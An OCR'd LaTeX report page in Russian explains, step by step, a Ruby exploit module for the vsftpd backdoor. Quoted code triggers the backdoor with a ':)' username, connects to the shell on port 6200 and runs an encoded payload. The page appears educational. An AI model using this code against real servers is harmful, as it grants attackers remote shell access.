 \documentclass[10pt,a4paper]{report}
\begin{document}
			Скрипт работает по следующему алгоритму:
			\begin{enumerate}
				\item Происходит подключение к порту 6200
				\begin{lstlisting}
nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
if nsock
print_status("The port used by the backdoor bind listener is already open")
handle_backdoor(nsock)
return
end
				\end{lstlisting}
				
				\item Если сокет открыт, то на ftp сервер отправляется рандомный 
				пользователь и пароль, а так же осуществляется проверки на доступ 
				только анонимным пользователям и на ответ сервера.
				\begin{lstlisting}
sock.put("USER #{rand_text_alphanumeric(rand(6)+1)}:)\r\n")
resp = sock.get_once(-1, 30).to_s
print_status("USER: #{resp.strip}")

if resp =~ /^530 /
print_error("This server is configured for anonymous only and the backdoor code 
cannot be reached")
disconnect
return
end

if resp !~ /^331 /
print_error("This server did not respond as expected: #{resp.strip}")
disconnect
return
end

sock.put("PASS #{rand_text_alphanumeric(rand(6)+1)}\r\n")
				\end{lstlisting}
				
				\item Не получая ответа на ввод пароля пытаемся запустить backdoor.
				\begin{lstlisting}
nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
if nsock
print_good("Backdoor service has been spawned, handling...")
handle_backdoor(nsock)
return
end
				\end{lstlisting}
				
				Payload запускается в методе handle\_backdoor.
				\begin{lstlisting}
def handle_backdoor(s)

s.put("id\n")

r = s.get_once(-1, 5).to_s
if r !~ /uid=/
print_error("The service on port 6200 does not appear to be a shell")
disconnect(s)
return
end

print_good("UID: #{r.strip}")

s.put("nohup " + payload.encoded + " >/dev/null 2>&1")
handler(s)
end
				\end{lstlisting}
			\end{enumerate}
\end{document}
